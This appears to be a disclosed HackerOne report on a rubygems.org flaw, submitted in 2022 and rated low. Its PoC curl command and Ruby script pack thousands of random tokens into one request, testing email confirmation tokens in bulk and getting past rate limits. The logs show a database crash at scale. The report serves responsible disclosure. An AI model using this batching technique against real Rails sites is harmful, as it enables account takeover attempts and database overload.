 # rubygems.org Batching attack to `confirmation_token` by bypass rate limit

## Report Details
- **Report ID**: 1559262
- **URL**: https://hackerone.com/reports/1559262
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-05-05T01:07:11.729Z
- **Disclosed**: 2022-07-13T04:04:52.151Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
The following is copied from hackerone's report.  https://hackerone.com/reports/1529183

---

I confirmed that EmailConfirmationsController has the same problem as https://hackerone.com/reports/449356 .

https://github.com/rubygems/rubygems.org/blob/962dba88995c98973f52fa84faebce4a62cd56e3/app/controllers/email_confirmations_controller.rb#L55

```ruby
  def validate_confirmation_token
    @user = User.find_by(confirmation_token: params[:token])
    redirect_to root_path, alert: t("failure_when_forbidden") unless @user&.valid_confirmation_token?
  end
```

Using an array in `params[:token]` makes searching for `confirmation_token` more efficient.

### PoC

1. start server in local
2. Access url with multiple token

```
❯ curl --globoff 'http://127.0.0.1:3000/email_confirmations/confirm?token[]=key1&token[]=key2'

<html><body>You are being <a href="http://127.0.0.1:3000/">redirected</a>.</body></html>%
```

#### rails log

```ruby
Started GET "/email_confirmations/confirm?token[]=[FILTERED]&token[]=[FILTERED]" for 127.0.0.1 at 2022-04-03 17:54:41 +0900
Processing by EmailConfirmationsController#update as HTML
  Parameters: {"token"=>"[FILTERED]"}
  User Load (1.8ms)  SELECT "users".* FROM "users" WHERE "users"."confirmation_token" IN ($1, $2) LIMIT $3  [["confirmation_token", "key1"], ["confirmation_token", "key2"], ["LIMIT", 1]]
  ↳ app/controllers/email_confirmations_controller.rb:56:in `validate_confirmation_token'
Redirected to http://127.0.0.1:3000/
Filter chain halted as :validate_confirmation_token rendered or redirected
Completed 302 Found in 71ms (ActiveRecord: 26.5ms | Elasticsearch: 0.0ms | Allocations: 3613)
```

### batching attack

```ruby
require 'net/http'
require 'securerandom'
require 'json'

# https://github.com/thoughtbot/clearance/blob/main/lib/clearance/token.rb
keys = 100_000.times.map{SecureRandom.hex(20).encode('UTF-8')}

uri = URI.parse("http://127.0.0.1:3000/email_confirmations/confirm")
http = Net::HTTP.new(uri.host, uri.port)
req = Net::HTTP::Get.new(uri.path)
req["Content-Type"] = "application/json"
req.body = {token: keys}.to_json

res = http.request(req)
puts res.body
```

In the previous report, 65534 was the limit, but due to a change in the behavior of rails, it is possible to send more numbers.

## Impact

There is a rate limit for accessing websites, but this method allows attacker to confirm a large number of tokens.

https://guides.rubygems.org/rubygems-org-rate-limits/
> API and website: 10 requests per second

If authentication by `validate_confirmation_token` is successful, users who have a valid confirm_token and have not set up multi-factor authentication will be able to sign in.

https://github.com/rubygems/rubygems.org/blob/962dba88995c98973f52fa84faebce4a62cd56e3/app/controllers/email_confirmations_controller.rb#L5

```ruby
  def update
    if @user.mfa_enabled?
      @form_url = mfa_update_email_confirmations_url(token: @user.confirmation_token)
      render template: "multifactor_auths/otp_prompt"
    else
      confirm_email_success
    end
  end
```  

https://github.com/rubygems/rubygems.org/blob/962dba88995c98973f52fa84faebce4a62cd56e3/app/controllers/email_confirmations_controller.rb#L62

```ruby
  def confirm_email_success
    @user.confirm_email!
    sign_in @user
    redirect_to root_path, notice: t("email_confirmations.update.confirmed_email")
  end
```

---

I confirmed the number of tokens that can be sent in one request, it seems to be around 2 million.

The value of `client_max_body_size` of nginx setting in rubygems.org is `500M`, and it seems that attacker can send up to about 12 million tokens when sending using json. https://github.com/rubygems/rubygems.org/blob/master/config/deploy/nginx-configmap.yaml.erb#L79
However, when I confirmed the operation locally, sending more than 2 million tokens made it easier for unexplained postgresql errors to occur.

```
rubygemsorg-db-1         | 2022-04-17 01:58:24.498 UTC [1] LOG:  server process (PID 230) was terminated by signal 9: Killed
rubygemsorg-db-1         | 2022-04-17 01:58:24.498 UTC [1] DETAIL:  Failed process was running: SELECT "users".* FROM "users" WHERE "users"."confirmation_token" IN ('efb0f7101d9fe1daff206d3cfaadf127fcce71fe', '0ae1522d7cc5a65e40d69c25e52b4dcd364930ac', 'c8cd10691f2ed50c42df9f932091d1feefb0b679', '567860e213a4e77aadfd416bc3b773570791542e', 'd47d8646d42d74030384c735799da5b2e999520b', 'd1fafdf37922b299350302dd3c7fd7e6def10308', '1e46e4e5c32a7ea7d95585b87131f06fac27af9d', 'ee80d17ab17509028033d4018a38d3582f0c2410', '2d36a83d29d8ff07b28cec46f0b66c61e5fa4aff', 'd6bfe631f2239640e756bbde772a487ae20cc302', '832108d67aa3b476702a112a1354c660f901560d', 'ba4423b0a1afb1dbbe88e39ffc5a69f6b3e7ae13', '05a58cf07ade4f24727cf43ccbdf4676e941167a', '4fdde1bde7ab049c4d48968dca165b6fff18e776', '91246d1975e252ca97896dd425537b5204cddf58', '0884a42b8745b0255c1675ce788a25e58bccfdbe', 'd6343d92d9b797a8fc8a0b6ea456ada6b219088e', 'fd0050ead3c2463e5351730d488bf2382fb7e70c', '5b358bb1e938bcce5faa60caff18a76917a487f0', '3ac27a5ebeb7f863529afdfc236b9c1356fda7bc', '1a9d407152249861dc4a018d5fafd0ddb34841ae', '1c6e5ca9dacfea97030d87abef46f
rubygemsorg-db-1         | 2022-04-17 01:58:24.499 UTC [1] LOG:  terminating any other active server processes
rubygemsorg-db-1         | 2022-04-17 01:58:24.501 UTC [227] WARNING:  terminating connection because of crash of another server process
```

Calculated, the time required for one IP address brute force is 1915427376 years.

```
16 ** 20 / (2_000_000 * 10) / 3600 / 24 / 365.25
=> 1915427376.6297057
```

Considering that a valid confirm_token exists for each user and that it is sent from multiple IPs using botnet, etc., it is likely to be a few more digits lower.

However, since the confirm_token has an expiration time of 3 hours, it would have been safe enough.
https://github.com/rubygems/rubygems.org/search?q=EMAIL_TOKEN_EXPRIES_AFTER

## Attachments
No attachments
